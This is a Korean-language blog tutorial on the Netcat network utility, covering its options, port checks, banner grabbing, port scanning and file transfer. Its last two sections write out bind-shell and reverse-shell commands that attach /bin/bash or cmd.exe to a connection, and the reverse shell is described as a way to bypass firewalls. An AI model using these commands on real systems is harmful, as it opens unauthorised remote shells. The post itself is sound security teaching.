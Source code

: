 ```yaml
---
layout: post
title: "Netcat"
tags: [정보보안, 툴]
comments: true
---
```


Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임

![image](https://github.com/what0302/what0302.github.io/assets/18510716/8435fd52-6470-4f27-b877-4444db4f6420/)

##### 출처 링크: [KOROMOON][KOROMOONlink]
[KOROMOONlink]: https://koromoon.blogspot.com/2018/01/netcat.html "Go KOROMOON"

## (1) 설명

Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임.<br>
일반적으로 UNIX 의 cat 명령어와 비슷한 사용법을 가지고 잇지만 cat 명령어를 통해 파일에 쓰거나 읽듯이 Netcat 툴은 네트워크에 읽거나 쓸 수 있음.<br>
이것은 스크립트와 병용하여 네트워크에 대한 디버깅, 테스트 툴로써 매우 편리하고 원하는 포트로 원하는 데이터를 주고 받을 수 있는 특징 때문에 악의적으로 사용할 수 있음.<br><br>
또한, 컴퓨터 포렌식에 있어서 라이브 시스템의 데이터를 손상없이 가져오기 위해서도 사용될 수 있음.<br>
원하는 거의 모든 종류의 접속 형태를 만들어 낼 수 있고 흥미로운 몇 가지 내장 기능을 가지고 있기 때문에 다기능의 네트워크 문제해결 및 조사 시에 유용하게 사용 가능함.<br><br>

윈도우 다운로드 : [http://eternallybored.org/misc/netcat/](http://eternallybored.org/misc/netcat/)<br>
리눅스 다운로드 : [https://sourceforge.net/projects/nc110/](https://sourceforge.net/projects/nc110/)<br><br>

참고로 SANS 에서 제공하는 Netcat Cheat Sheet 파일은 아래 링크에서 다운받으세요.<br>
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf<br><br><br>

## (2) 사용법
![image](https://github.com/what0302/what0302.github.io/assets/18510716/7bd774fe-19f3-460c-82c6-16d4caf1b74b)
<br>
<br>
※ 아래 옵션은 netcat-win32-1.12 버전을 기준으로 정리함.<br><br>

어딘가에 연결 시 : `nc [-options] hostname port[s] [ports] ...`<br>
인바운드 수신 대기 시 : `nc -l -p port [options] [hostname] [port]`<br><br>

옵션 :<br><br>
<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody><tr>
  <td style="border: 1pt solid windowtext; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt; width: 461.2pt;" valign="top" width="615">
  <p align="left" class="MsoNoSpacing"><i><span lang="EN-US"><span style="font-family: courier;">
        -d              콘솔에서 분리되어 백그라운드 모드로 실행<br>
        -e prog         커넥션(Connection)이 이루어졌을 때 후 프로그램을 실행함 (위험!)<br>
        -g gateway      source-routing hop point[s]를 8씩 증가<br>
        -G num          source-routing point를 4, 8, 12 .. 4씩 증가<br>
        -h              도움말<br>
        -i secs         스캔된 포트로 전송된 회선의 지연 간격<br>
        -l              인바운드 커넥션을 위해서 listen 모드로 실행<br>
        -L              소켓 종료 시 재전송 실행<br>
        -n              IP 주소 입력 (DNS 을 사용하지 않음)<br>
        -o file         주고받은 데이터를 헥스 덤프(Hex Dump)하여 파일로 저장함<br>
        -p port         로컬 포트를 지정함<br>
        -r              로컬 이나 원격 포트를 임의로 지정함<br>
        -s addr         로컬 출발지 주소를 지정함<br>
        -t              Telnet 과 같은 협상 과정을 거치도록 설정함<br>
        -c              LF 대신 CRLF 를 보냄<br>
        -u              UDP 모드<br>
        -v              자세한 설명 모드 (더 자세한 정보를 표시하기 위해 두 번 사용)<br>
        -w secs         마지막으로 읽고 난 후 종료할 시간을 정함<br>
        -z              zero-I/O 모드 (스캔 시 사용)<o:p></o:p></span></span></i></p>
  </td>
 </tr>
</tbody></table><br>

참고로 포트 범위는 개별 또는 범위(m-n)일 수 있음.<br><br><br>

## (3) 사용 예
1. 특정 포트에 대한 연결 수립<br><br>
원격 IP 의 특정 포트로 연결하여 Open 되어 있는 여부를 확인함.<br><br>
`nc [IP] [Port]`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj26vMovg5synzLGTccviKy3Bh7Fwr9vyJpIEcvNV3O3P_0DR1nvyOh7SbB6BHb0eiqnaYrzV5_Vo75s2gjgF2CPFcuClNe8JDaIMEqh8GzYhAVdkQoOIJ2BwHIjcJMrLlP1UCYigKdAOE/s1600/%25ED%258A%25B9%25EC%25A0%2595+%25ED%258F%25AC%25ED%258A%25B8%25EC%2597%2590+%25EB%258C%2580%25ED%2595%259C+%25EC%2597%25B0%25EA%25B2%25B0+%25EC%2588%2598%25EB%25A6%25BD.png"></div><br><br>

2. 서비스 배너 수집<br><br>
다양한 서비스를 대상으로 그대로 사용할 수 있음.<br>
하지만 HTTP 서비스는 HTTP 헤더 양식을 전송해줘야 함.<br>
`echo -e "HEAD / HTTP/1.0\n\n" | nc [IP] 80`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgoaWHzRs5Eysrtj7MwxJwG93oiVnlK0lhMfsw458wNV7xJYfmxaXrF4mYtIJa-S3t6HVqeSGTxlGrjFngRQHSYpugvkM1nkyIBDjfsZwvRPJxWPNmBe3h70eUUK9qlR8mfkzHGiNtpOzQ/s1600/%25EC%2584%259C%25EB%25B9%2584%25EC%258A%25A4+%25EB%25B0%25B0%25EB%2584%2588+%25EC%2588%2598%25EC%25A7%2591.png"></div><br><br>

3. 포트 스캐닝<br><br>
TCP 프로토콜을 사용하여 특정 포트나 포트 범위를 스캔함.<br>
`nc -n -v -z -w 1 [IP] [포트 범위]`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh13c9lcWxw5TwLBJpjyNLUm_NZ3zAsQujCfqBInGQ77S6RUAJ5DL5lzdX37VcE_8vbXM0Ux9quTZPYrTjypVuipPBIiaHJcl7cBBkknPy6ikZF1FYbGhW6EZh2m5FDpTQ_PUZ_ut1jwxc/s1600/%25ED%258F%25AC%25ED%258A%25B8+%25EC%258A%25A4%25EC%25BA%2590%25EB%258B%259D.png"></div><br><br>

4. 파일 전송<br><br>
클라이언트(윈도우) -> 서버(Kali Linux)로 파일 전송<br><br>
클라이언트<br>
`nc -w3 [IP] [Port] < [파일명]`<br><br>
서버<br>
`nc -l -p [Port] > [파일명]`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhLJghqkvJi7EEYkN5gOMcpHOrLAssBsvMkaFseVbjUZ26uWPYWigxTUkSpL_d-qDlSow1hVAbyeoPkAOwBYLI3MS_Orkt2YY6K1u9fsnUeuI1sjW0aTab7uavss0mjGbiAAaZgcuNqs9Y/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_1.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhesAfNu5IJ2nouAur7moiNTHJ-NOV99AZq0ScVga1EFcziWg7qjVBuvRycwNYQPLW3NHvxT-McO7iDvJXYUtvqK5Xlni5ZMjG3pujhXPey6-JA_GrJOqfUq2rKIVCTI18j1eYIKashfuM/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_2.png"></div><br><br>

5. 백도어 쉘 (Backdoor Shell)<br><br>
Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 특정 포트(-p)에서 listen 모드(-l)로 실행하여 연결 수립 시 특정 쉘을 실행(-e)하도록 옵션을 지정하는 방식임.<br><br>

리눅스 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhBdx0Kzn5FlS4vy-O59_HtqxLVa1amIMhFdxbKwmRBLxk_HUM-LPMLg6asSVyahZohOVEMXvrNGzvjSY0osxM9mJOwuSfXV2Ck_u8AcP4XqCydi61KwSpbA8CAyPt8xx7_e_7x1OHXt0U/s1600/Backdoor+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSZei4HxKQGGb3QYa8gsdrbxiTfBQp15VwdjTCm0jfB2U2xEm3E70xUFhmq4tmR4BclG12RoUtChqnRztb-o6iqerwGEVeFL99ZTZoB9R2Mvbs1z4xA2pDatgcHElAgdSsbyafrpimIRw/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B81.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhJ9VfZoyrHFHhQ4ldYU6bQfgrH8yPhikT1dCuZSx_Oi9giWq-mohcOVc_WjqC46L_vlEJO_ikY1NLBYquwb9pR1E1zNDUAmJsumn9Q_8wa71aRwDqaYxLCpv3FfFCSAjVnDblt6_c-Dt8/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B82.png"></div><br>
위 스샷에서 서버(Kali Linux) 측 쉘에 접속 후 명령어 뒤에 세미콜론 문자(;)를 덧붙여야 함.<br>
(사용하는 클라이언트 마다 다를 수 있음)<br><br>

6. 리버스 쉘 (Reverse Shell)<br><br>

**Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 백도어 쉘과는 반대로 보통 서버 앞단에 방화벽을 우회하기 위해서 리버스 쉘을 이용함.**<br>
**방화벽에서 허용된 나가는 포트를 이용하여 클라이언트 측에서 쉘을 실행시킨 후 서버 측에서 접속함.**<br><br>

리눅스 환경(서버)에서 리버스 쉘<br>
`nc [자신의 IP 주소] [포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 리버스 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
`nc [자신의 IP 주소] [포트] -e cmd.exe`<br>
<br>

<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjQWHXV2Sba-_p1a2eB8zqbCVgQqAaJ-aakB2RXHV05B8I5LH3zkcIdkmRvxFy9QyqSSzzSo51nKxzc_Y1Yiv1OCaR6kd6H-8zVXYHyACv0Bwx7TSVirNYVyC6tbfCSndhpXyRI8ys7-3M/s1600/Reverse+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgILlZyiTOyqIOo5Gchyphenhyphen5sn1Ypk0XQImvPwJXuZrrCA_Kt0TiyL3tUHnGclcnSH5-Un9W5DhwrzuIr-H6k6lnpD-PmHOP80Y6bl4sny7yyx6yEUxVGKL5elIWNmSDI5UqHXT9RSVTLAjn8/s1600/Reverse+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8.png"></div><br>

